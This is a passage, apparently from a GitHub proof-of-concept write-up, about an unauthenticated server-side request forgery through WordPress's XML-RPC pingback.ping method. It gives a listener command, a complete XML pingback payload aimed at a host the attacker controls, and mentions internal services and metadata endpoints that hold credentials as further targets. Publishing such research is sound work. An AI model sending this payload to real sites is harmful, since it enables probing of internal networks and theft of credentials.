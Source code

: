 ```bash
python3 -m http.server 8000
```

This is so you can see when the target server makes a request to your server (proving the SSRF works).

**Step 4: Send the malicious pingback request**

Send a POST request with this XML payload:

```xml
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://YOUR_SERVER:PORT</string></value>
</param>
<param>
<value><string>http://TARGET_SITE.com/any-post/</string></value>
</param>
</params>
</methodCall>
```

Replace:
- `YOUR_SERVER:PORT` with your server URL
- `TARGET_SITE.com/any-post/` with any valid post from the WordPress site

<img width="1457" height="642" alt="4" src="https://github.com/user-attachments/assets/e28823d4-d66f-4fcf-bd53-dc2db97c3ffc" />


**Step 5: Check your server logs**

If the SSRF works, your server will receive a request from the target server. You'll see it in your logs.

That proves it. The server made a request to your arbitrary URL. Unauthenticated. Unprotected.

<img width="1668" height="606" alt="5" src="https://github.com/user-attachments/assets/c9348faa-5907-443e-8c6d-d3b74d40d8ff" />


Now imagine instead of your test server, that request goes to:
- An internal database
- A local admin panel
- A service that shouldn't be accessible
- A metadata service holding sensitive credentials

That's the real danger.

## The Technical Details

**Vulnerability Type:** Server-Side Request Forgery (SSRF) via XML-RPC

**Vulnerable Method:** pingback.ping

**Authentication Required:** None
